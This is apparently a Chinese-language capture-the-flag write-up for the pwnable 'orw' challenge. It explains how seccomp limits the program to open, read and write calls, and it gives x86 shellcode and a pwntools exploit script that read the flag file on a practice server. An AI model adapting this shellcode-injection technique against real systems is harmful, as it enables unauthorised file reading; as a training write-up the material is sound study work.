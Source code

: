 ```yaml
---
layout: post
title:  orw
date:   2021-06-22 00:01:01 +0300
image:  2021-06-22-cafe.jpg
tags:   [ctf,Pwn,shellcode,seccomp,pwnable]
---
```


main

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```

调用`orw_seccomp`函数后，输入`shellcode`后执行`shellcode`

orw_seccomp

```assembly
unsigned int orw_seccomp()
{
  __int16 v1; // [esp+4h] [ebp-84h]
  char *v2; // [esp+8h] [ebp-80h]
  char v3; // [esp+Ch] [ebp-7Ch]
  unsigned int v4; // [esp+6Ch] [ebp-1Ch]

  v4 = __readgsdword(0x14u);
  qmemcpy(&v3, &unk_8048640, 0x60u);
  v1 = 12;
  v2 = &v3;
  prctl(38, 1, 0, 0, 0);
  prctl(22, 2, &v1);
  return __readgsdword(0x14u) ^ v4;
}
```

seccomp 是 secure computing 的缩写，其是 Linux kernel 从2.6.23版本引入的一种简洁的 sandboxing 机制。在 Linux 系统里，大量的系统调用（system call）直接暴露给用户态程序。但是，并不是所有的系统调用都被需要，而且不安全的代码滥用系统调用会对系统造成安全威胁。seccomp安全机制能使一个进程进入到一种“安全”运行模式，该模式下的进程只能调用4种系统调用（system call），即 read(), write(), exit() 和 sigreturn()，否则进程便会被终止。

`orw_seccomp函数`执行了两次`prctl`函数

第一次调用prctl函数 ——禁止提权

第二次调用prctl函数 ——限制能执行的系统调用只有open，write，exit

所以我们不能使用特殊的系统调用`getshell`，但是可以用`open`、`read`、`write`三个系统调用去读flag。

打开flag文件，`sys_open(file,0,0)`；系统调用号为5

```assembly
push 0x0  			#字符串结尾
push 0x67616c66		#'flags'
mov ebx,esp			
xor ecx,ecx			#0
xor edx,edx			#0
mov eax,0x5			#调用号
int 0x80			#sys_open(flags,0,0)
```

读flag文件，`sys_read(3,file,0x100)`；系统调用号为3

```assembly
mov eax,0x3; 
mov ecx,ebx;	# ecx = char __user *buf 缓冲区，读出的数据-->也就是读“flag”
mov ebx,0x3;	# 文件描述符 fd:是文件描述符 0 1 2 3 代表标准的输出输入和出错,其他打开的文件
mov edx,0x100;	#对应字节数
int 0x80;
```

输出flag文件内容，`sys_write(1,file,0x30)`；系统调用号为4

```assembly
mov eax,0x4;	# eax = sys_write
mov ebx,0x1;	# ebx = unsigned int fd = 1
int 0x80;
```

exp

```assembly
from pwn import *

io = remote("node4.buuoj.cn", 29378)

shellcode = shellcraft.open("./flag")
shellcode += shellcraft.read("eax", "esp", 100)
shellcode += shellcraft.write(1, "esp", 100)

payload = asm(shellcode)

io.recvuntil("Give my your shellcode:")
io.sendline(payload)

io.interactive()
```

flag{c21dbce2-52a0-4d7c-95a1-eb8bdffc2732}